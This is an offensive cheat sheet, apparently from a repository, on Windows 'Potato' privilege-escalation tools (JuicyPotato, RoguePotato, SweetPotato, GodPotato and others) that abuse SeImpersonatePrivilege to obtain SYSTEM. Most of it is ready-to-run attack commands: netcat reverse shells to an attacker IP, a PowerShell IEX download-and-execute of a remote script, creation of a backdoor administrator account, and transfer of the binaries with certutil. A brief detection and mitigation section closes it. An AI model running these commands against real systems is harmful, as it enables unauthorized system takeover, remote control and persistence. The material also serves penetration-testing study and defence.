






## TL;DR

All Potato attacks share the same core primitive: a service account with **SeImpersonatePrivilege** or **SeAssignPrimaryTokenPrivilege** can be escalated to **NT AUTHORITY\\SYSTEM** by coercing a privileged process to authenticate locally, then stealing that token.

**Quick selection guide:**

| Situation | Recommended Tool |
|-----------|-----------------|
| Any modern Windows | **GodPotato** (most reliable) |
| Need unified one-liner | **SweetPotato** |
| Windows 10 1809+ / Server 2019+ | **RoguePotato** |
| Older Windows (pre-1809) | **JuicyPotato** |
| SSRF + SeImpersonate | **GenericPotato** |

---

## Prerequisites — SeImpersonatePrivilege

All Potato attacks require at least one of:

- `SeImpersonatePrivilege` — *Impersonate a client after authentication*
- `SeAssignPrimaryTokenPrivilege` — *Replace a process-level token*

These are granted by default to **IIS**, **SQL Server**, **WinRM**, and other service accounts. Verify with:

```powershell
whoami /priv
# Look for:
# SeImpersonatePrivilege   Impersonate a client after authentication   Enabled
```

---

## Hot Potato

**Target:** Windows 7, 8, 10, Server 2008, Server 2012

**Status:** ⛔ Patched (MS16-075, MS16-077)

### Mechanism

Chains three separate vulnerabilities into a single exploit:
1. **Local NetBIOS Name Service spoofing** — responds to NBNS broadcast queries
2. **Fake WPAD proxy** — serves a malicious WPAD PAC file via the spoofed name
3. **HTTP → SMB NTLM relay** — relays the captured SYSTEM credential back to the local machine



### Command

```cmd
Potato.exe -ip <local_ip> -cmd [command] -disable_exhaust true -disable_defender true
```

---

## Rotten Potato

**Target:** Windows pre-1809 with meterpreter session

**Status:** ⛔ Non-functional on Windows 10 1809+ / Server 2019+

### Mechanism

Exploits the RPC authentication flow:

1. Calls `CoGetInstanceFromIStorage` to force the DCOM server to authenticate to a local RPC listener
2. Captures the NTLM authentication blob
3. Relays it to `AcceptSecurityContext` for local impersonation
4. Steals the resulting SYSTEM token



### Command

```cmd
MSFRottenPotato.exe t c:\windows\temp\test.bat
```

---

## Lonely Potato

**Status:** ⛔ Deprecated

Standalone port of Rotten Potato without meterpreter dependency. The repository now redirects users to Juicy Potato.

---

## Juicy Potato

**Target:** Windows 10 pre-1809, Server 2016 and earlier

**Status:** ⚠️ Same DCOM limitations on modern Windows; use SweetPotato instead

### Mechanism

Extends Rotten Potato by:
- Allowing **custom CLSID selection** (no longer tied to BITS)
- Removing the meterpreter requirement
- Supporting a configurable listening port

Targets COM servers that:
- Are instantiable by low-privilege service accounts
- Implement the `IMarshal` interface
- Run under an elevated context (SYSTEM, Administrator, or LocalService)



### Command

```cmd
juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}
```

**Options:**

| Flag | Description |
|------|-------------|
| `-l` | Local COM listener port |
| `-p` | Program to execute |
| `-t` | Token type (`*` = try both CreateProcessWithToken and CreateProcessAsUser) |
| `-c` | Target CLSID |

CLSID lists by OS: [https://github.com/ohpe/juicy-potato/tree/master/CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID)

---

## Rogue Potato

**Target:** Windows 10 1809+, Server 2019+ (modern systems)

**Status:** ✅ Works on patched modern Windows

### Mechanism

Bypasses the restriction that DCOM won't authenticate to local listeners by using **remote OXID resolution**:

1. Forces DCOM to perform a remote OXID query (to attacker's machine port 135)
2. Attacker redirects that query to a fake RPC server on the victim
3. Fake RPC server points to a controlled **named pipe**
4. Authentication callback received → `RpcImpersonateClient()` → SYSTEM token stolen from `rpcss`



### Setup

On **attacker machine** — forward port 135 to victim:

```bash
socat tcp-listen:135,reuseaddr,fork tcp:<VICTIM_IP>:9999
```

On **victim**:

```cmd
.\RoguePotato.exe -r <ATTACKER_IP> -e "cmd.exe" -l 9999
```

**Options:**

| Flag | Description |
|------|-------------|
| `-r` | Attacker IP (for OXID redirect) |
| `-e` | Command to execute |
| `-l` | Local listening port for fake OXID server |
| `-c` | Custom CLSID (optional) |

---

## Sweet Potato

**Target:** All Windows versions (unified tool)

**Status:** ✅ Recommended for broad compatibility

### Mechanism

A single binary integrating multiple escalation methods, automatically selecting the best available:

- **RottenPotato** — classic DCOM abuse
- **JuicyPotato** — BITS/WinRM CLSID discovery
- **PrintSpoofer** — Spooler named pipe impersonation
- **EfsRpc (EfsPotato)** — MS-EFSR named pipe coercion
- **PetitPotam** — LSARPC/EFSRPC coercion



### Command

```cmd
.\SweetPotato.exe -p cmd.exe -a "/c whoami"
```

**Full options:**

```
.\SweetPotato.exe
  -c, --clsid=VALUE          CLSID (default: BITS)
  -m, --method=VALUE         Token method: Auto / User / Thread
  -p, --prog=VALUE           Program to launch
  -a, --args=VALUE           Arguments for program
  -e, --exploit=VALUE        DCOM | WinRM | EfsRpc | PrintSpoofer
  -l, --listenPort=VALUE     Local COM server port
```

---

## Generic Potato

**Target:** Special scenarios where standard Potato tools fail

**Status:** ✅ Useful for SSRF + SeImpersonate and non-standard environments

### Use Cases

- **SSRF + SeImpersonatePrivilege** — force a web request from a privileged service
- Systems **without Print Spooler** running
- Environments **blocking RPC outbound** or with BITS disabled
- **WinRM available** but no DCOM

### Mechanism

Listens on HTTP or a named pipe, then waits for a privileged application or user to authenticate. Steals the resulting token to execute arbitrary commands.

### Command

```cmd
.\GenericPotato.exe -e HTTP -p cmd.exe -a "/c whoami" -l 8888
```

```
.\GenericPotato.exe
  -m, --method=VALUE         Token method: Auto / User / Thread
  -p, --prog=VALUE           Program to launch
  -a, --args=VALUE           Arguments
  -e, --exploit=VALUE        HTTP | NamedPipe
  -l, --port=VALUE           HTTP listen port
  -i, --host=VALUE           HTTP host binding
```

---

## GodPotato

**Target:** Windows Server 2012 – 2022, Windows 8 – 11

**Status:** ✅ Most reliable modern option — recommended first choice

### Overview

GodPotato is the latest evolution of the Potato family. It works reliably across **all modern Windows versions** including fully patched Windows 11 and Server 2022, which earlier tools fail on.

It exploits the **ImpersonateNamedPipeClient** + **DCOM RPC** authentication chain, coercing a SYSTEM-level RPC call through a fake COM object, then capturing and duplicating the SYSTEM token.

**Requirements:**
- `SeImpersonatePrivilege` must be enabled
- DCOM enabled (default on Windows)

### Verify DCOM is Enabled

```powershell
Get-ItemProperty -Path "HKLM:\Software\Microsoft\OLE" | Select-Object EnableDCOM
# Expected: EnableDCOM = Y
```

### Attack Flow



### Commands

**Reverse shell (most common):**

```cmd
.\GodPotato.exe -cmd ".\nc.exe <KALI_IP> 4444 -e cmd.exe"
```

**Interactive PowerShell via RDP (requires active RDP session):**

```cmd
.\GodPotato.exe -cmd "C:\Users\<USER>\Documents\PsExec64.exe -accepteula -i -s powershell.exe"
```

**Execute any command:**

```cmd
.\GodPotato.exe -cmd "cmd /c whoami > C:\Temp\out.txt"
```

**Add user to local admins:**

```cmd
.\GodPotato.exe -cmd "cmd /c net user hacker P@ssw0rd123 /add && net localgroup administrators hacker /add"
```

**Download and run a payload:**

```powershell
.\GodPotato.exe -cmd "powershell -c IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')"
```

### Transfer to Target

```bash
# Kali - serve the binary
python3 -m http.server 8001

# Victim (PowerShell)
Invoke-WebRequest http://<KALI_IP>:8001/GodPotato.exe -OutFile C:\Temp\GodPotato.exe

# Or certutil
certutil -urlcache -split -f http://<KALI_IP>:8001/GodPotato.exe C:\Temp\GodPotato.exe
```

---

## Comparison Table

| Tool | Win 7/8 | Win 10 pre-1809 | Win 10 1809+ | Server 2019+ | Win 11 / Server 2022 | Meterpreter needed |
|------|---------|-----------------|--------------|--------------|----------------------|--------------------|
| Hot Potato | ✅ (patched) | ✅ (patched) | ⛔ | ⛔ | ⛔ | No |
| Rotten Potato | ✅ | ✅ | ⛔ | ⛔ | ⛔ | Yes |
| Juicy Potato | ✅ | ✅ | ⛔ | ⛔ | ⛔ | No |
| Rogue Potato | ⚠️ | ⚠️ | ✅ | ✅ | ⚠️ | No |
| Sweet Potato | ✅ | ✅ | ✅ | ✅ | ⚠️ | No |
| GodPotato | ✅ | ✅ | ✅ | ✅ | ✅ | No |

---

## Detection & Defense

### Blue Team Indicators

| Event ID | Description |
|----------|-------------|
| 4648 | Explicit credential logon — watch for SYSTEM authenticating to unusual processes |
| 4672 | Special privileges assigned at logon |
| 4688 | New process created — watch for cmd.exe / powershell.exe spawned by IIS/SQL service accounts |

### Mitigations

```powershell
# Remove SeImpersonatePrivilege from service accounts that don't need it
# (verify functionality before removing in production)

# Check which accounts have the privilege
whoami /priv
Get-WmiObject Win32_UserAccount | Select Name

# Use Virtual Service Accounts or gMSA — these have restricted token privileges
# and cannot abuse SeImpersonatePrivilege for cross-process impersonation
```

- **Virtual Service Accounts** (`NT SERVICE\<name>`) and **Group Managed Service Accounts (gMSA)** significantly reduce the attack surface
- Restrict outbound RPC/DCOM where possible (Windows Firewall rules)
- Monitor for unusual named pipe creation by low-privilege processes

---

## Quick Command Reference

```cmd
:: GodPotato (recommended)
.\GodPotato.exe -cmd "nc.exe <IP> 4444 -e cmd.exe"

:: SweetPotato
.\SweetPotato.exe -p nc.exe -a "<IP> 4444 -e cmd.exe"

:: RoguePotato (requires attacker port 135 forwarding)
.\RoguePotato.exe -r <ATTACKER_IP> -e "nc.exe <IP> 4444 -e cmd.exe" -l 9999

:: JuicyPotato (older systems)
juicypotato.exe -l 1337 -p nc.exe -a "<IP> 4444 -e cmd.exe" -t * -c {CLSID}
```

---

## References

- **Primary source:** [https://jlajara.gitlab.io/Potatoes_Windows_Privesc](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)
- GodPotato: [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)
- JuicyPotato CLSID list: [https://github.com/ohpe/juicy-potato/tree/master/CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID)
- GTFOBins (SeImpersonate reference): [https://gtfobins.github.io/](https://gtfobins.github.io/)
